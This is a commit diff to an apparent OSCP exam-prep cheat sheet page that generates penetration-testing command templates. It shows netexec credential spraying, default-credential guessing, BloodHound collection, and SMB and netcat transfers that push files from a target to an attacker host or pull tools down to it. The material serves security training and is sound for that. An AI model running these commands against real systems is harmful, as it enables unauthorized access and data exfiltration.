

Before and after one commit to nkwdesmond/OSCP-cheatsheet, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 3340-4159 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -845,12 +845,12 @@ lab</textarea>
         commands: [
           { prefix: "BLOODHOUND against DC", className: "impt", template: "nxc ldap {nxcTarget} -u '{user}' -p '{password}' --bloodhound --collection ALL --dns-server {target}" },
           { prefix: "Anonymous SMB enumeration", template: "netexec smb {nxcTarget}{nxcSmbFlags}" },
-          { template: "nxc {service} {nxcTarget}{nxcPortFlag} -u users.txt{nxcCredFileFlag}{nxcGeneralFlags}{nxcServiceFlags} --continue-on-success" },
-          { template: "nxc {service} {nxcTarget}{nxcPortFlag} -u users.txt{nxcCredSingleFlag}{nxcGeneralFlags}{nxcServiceFlags} --continue-on-success" },
+          { template: "nxc {service} {nxcTarget}{nxcPortFlag}{nxcCredFileFlag}{nxcGeneralFlags}{nxcServiceFlags} --continue-on-success -u users.txt" },
+          { template: "nxc {service} {nxcTarget}{nxcPortFlag}{nxcCredSingleFlag}{nxcGeneralFlags}{nxcServiceFlags} --continue-on-success -u users.txt" },
           { template: "nxc {service} {nxcTarget}{nxcPortFlag} -u '{user}'{nxcCredFileFlag}{nxcGeneralFlags}{nxcServiceFlags} --continue-on-success" },
           { template: "nxc {service} {nxcTarget}{nxcPortFlag} -u '{user}'{nxcCredSingleFlag}{nxcGeneralFlags}{nxcServiceFlags}{nxcCommandExecFlag}" },
           { prefix: "Get list of user from D.C.", template: "nxc ldap {nxcTarget} -u '{user}' -p '{password}' --users | fgrep -v '[' | fgrep -vi '-Username-' | awk '{print$ 5}' | tee users.txt" },
-          { prefix: "SSH key file", template: "nxc ssh {nxcTarget}{nxcPortFlag} -u users.txt --key-file id_ecdsa -p '{password}'{nxcGeneralFlags}{nxcCommandExecFlag}" },
+          { prefix: "SSH key file", template: "nxc ssh {nxcTarget}{nxcPortFlag} --key-file id_ecdsa -p '{password}'{nxcGeneralFlags}{nxcCommandExecFlag} -u users.txt" },
           { prefix: "Try default creds", template: "nxc {service} {nxcTarget}{nxcPortFlag} -u /usr/share/seclists/Usernames/top-usernames-shortlist.txt -p /usr/share/wordlists/seclists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt{nxcGeneralFlags} --continue-on-success" }
         ]
       },
@@ -1306,7 +1306,7 @@ lab</textarea>
           { prefix: "On Kali", className: "kali", template: "sudo impacket-smbserver share \"$(pwd)\" -smb2support -username kali -password 'KaliPass123!'" },
           { prefix: "On Windows target", className: "target", template: "cmd /c \"net use \\\\{kaliIp}\\share /user:kali KaliPass123! 2>&1\"" },
           { prefix: "", className: "target", template: "cmd /c \"copy /Y {filename} \\\\{kaliIp}\\share\\ 2>&1\"" },
-          { prefix: "On Linux target", className: "target", template: "smbclient //{kaliIp}/share -U kali" },
+          { prefix: "On Linux target", className: "target", template: "smbclient //{kaliIp}/share -U 'kali%KaliPass123!'" },
           { prefix: "", template: "put {filename}" },
           { prefix: "On Kali", className: "kali", template: "nc -lvnp 9001 > {filename}" },
           { prefix: "On Windows target", className: "target", template: "cmd.exe /c \".\\nc.exe {kaliIp} 9001 < {filename}\"" },
@@ -1325,6 +1325,10 @@ lab</textarea>
           { id: "downloadPort", type: "checkbox", label: "Add :{port}" }
         ],
         commands: [
+          { prefix: "On Kali - SMB", className: "kali", template: "sudo impacket-smbserver share \"$(pwd)\" -smb2support -username kali -password 'KaliPass123!'" },
+          { prefix: "On Windows target - SMB", className: "target", template: "cmd /c \"net use \\\\{kaliIp}\\share /user:kali KaliPass123! 2>&1\"" },
+          { prefix: "", className: "target", template: "cmd /c \"copy /Y \\\\{kaliIp}\\share\\{filename} . 2>&1\"" },
+          { prefix: "On Linux target - SMB", className: "target", template: "smbclient //{kaliIp}/share -U 'kali%KaliPass123!' -c 'get {filename}'" },
           { prefix: "Make executable", template: "chmod 777 {filename}" },
           { prefix: "Linux", template: "wget http://{kaliIp}{downloadPortFlag}/{filename}" },
           { prefix: "Linux/PowerShell", template: "curl http://{kaliIp}{downloadPortFlag}/{filename} -o {filename}" },
```
